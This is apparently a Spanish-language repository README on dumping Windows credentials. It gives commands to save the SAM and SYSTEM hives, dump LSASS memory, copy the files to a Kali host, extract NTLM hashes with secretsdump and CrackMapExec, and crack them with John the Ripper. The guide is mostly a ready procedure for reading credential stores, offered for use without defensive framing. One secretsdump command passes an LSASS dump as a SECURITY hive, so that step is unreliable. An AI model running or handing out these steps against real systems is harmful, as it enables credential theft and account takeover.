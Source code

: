 # Volcado de información de LSASS y SAM

Este proyecto explica cómo volcar y extraer hashes de las cuentas locales de Windows utilizando los archivos SAM, SYSTEM y el proceso LSASS. También se incluyen métodos para descifrar los hashes con John the Ripper.

---

## **Requisitos**
- Máquina Windows (para el volcado de SAM, SYSTEM y LSASS).
- Máquina Kali Linux (para la extracción y descifrado de hashes).
- Herramientas:
  - Impacket-SecretsDump
  - CrackMapExec
  - John the Ripper
  - SCP o cualquier método de transferencia de archivos.

---

## **1. Volcado del archivo SAM y SYSTEM**

### **Paso 1: Guardar las claves del registro**
En la máquina Windows, ejecuta los siguientes comandos para guardar las claves del registro SAM y SYSTEM:
```cmd
reg save hklm\sam sam.save
reg save hklm\system system.save
```

### **Paso 2: Transferir los archivos a Kali Linux**
Usa `scp` o cualquier otro método para transferir los archivos a Kali Linux:
```bash
scp usuario@windows_ip:/ruta/a/sam.save /ruta/destino/kali/
scp usuario@windows_ip:/ruta/a/system.save /ruta/destino/kali/
```

---

## **2. Volcado de LSASS**

### **Paso 1: Generar un volcado de memoria**
1. Abre el Administrador de Tareas (`Ctrl + Shift + Esc`).
2. Busca el proceso `lsass.exe` en la pestaña **Detalles**.
3. Haz clic derecho en `lsass.exe` y selecciona **Crear volcado de memoria**.
4. Esto generará un archivo `lsass.DMP`.

### **Paso 2: Transferir el archivo a Kali Linux**
```bash
scp usuario@windows_ip:/ruta/a/lsass.DMP /ruta/destino/kali/
```

---

## **3. Extracción de hashes con Impacket-SecretsDump**

### **Extraer hashes del SAM y SYSTEM**
```bash
secretsdump.py -sam sam.save -system system.save LOCAL
```

### **Extraer hashes del volcado de LSASS**
```bash
secretsdump.py -security lsass.DMP LOCAL
```

---

## **4. Extracción de hashes con CrackMapExec**

### **Obtener hashes NTLM de un equipo remoto**
```bash
crackmapexec smb 192.168.1.10 -u Administrador -p Password123 --sam
```

---

## **5. Descifrar hashes con John the Ripper**

### **Paso 1: Preparar el archivo de hashes**
Guarda los hashes en un archivo `hashes.txt`.

### **Paso 2: Descifrar los hashes**
```bash
john --format=NT hashes.txt
john --show hashes.txt
```

---

## **Contribuciones**
Si deseas contribuir a este proyecto, ¡siéntete libre de hacer un fork y enviar un pull request!


